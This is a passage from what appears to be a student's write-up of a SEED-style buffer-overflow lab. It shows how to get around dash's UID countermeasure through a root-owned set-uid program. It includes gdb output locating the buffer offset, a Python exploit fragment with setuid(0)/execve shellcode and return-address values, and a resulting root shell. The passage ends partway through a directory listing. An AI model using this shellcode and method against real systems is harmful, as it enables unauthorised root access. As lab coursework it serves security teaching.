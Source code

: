 ```
# exit
[03/02/21]seed@VM:~/.../shellcode$ ./a64.out
# whoami
root
# id
uid=0(root) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
```
The dash's countermeasure is to check the real UID and the effective UID and changing the effective UID if it does not match with the real UID. However, we could get around this easily with a root-owned set-uid program, where our real UID and effective UID are both root. As we can see from the two snippet of code above, we were denied root privilege when we ran the regular program but given root privilege after setuid program.

#### Task 4.2:
This time, we are trying to run the level 1 stack against the dash and try to get around it. Note: In the make file, all levels have been changed to a root-owned, set-uid program with a code like:
```
sudo chown root $@ && sudo chmod 4755 $@
```
Additionally, since this is a set-uid program, we need to modify the shellcode in the exploit.py to match the situation and use gdb to find the information:
```
[03/02/21]seed@VM:~/.../code$ gdb stack-L1-dbg
...
gdb-peda$ b bof
...
gdb-peda$ run
...
gdb-peda$ next
...
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb08
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca9c
gdb-peda$ p/d 0xffffcb08 - 0xffffca9c
$3 = 108
gdb-peda$ quit
```
Then use the call_shellcode to modify shellcode, use gdb information for offset and ret:
```
...
shellcode = (
    "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')
...

# Decide the return address value and put it somewhere in the payload
offset = 112      # TODO: Change this number
ret = 0xffffcb08 + 120  # TODO: Change this number

L = 4           # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
...
```
Thus, the first ls -l is just demonstrating that stack-L1 is a root-owned set-uid program:
```
[03/02/21]seed@VM:~/.../code$ ls -l
total 216
-rw-rw-r-- 1 seed seed   517 Mar  2 01:25 badfile
-rwxr-xr-x 1 seed seed   276 Feb 27 19:47 brute-force.sh
```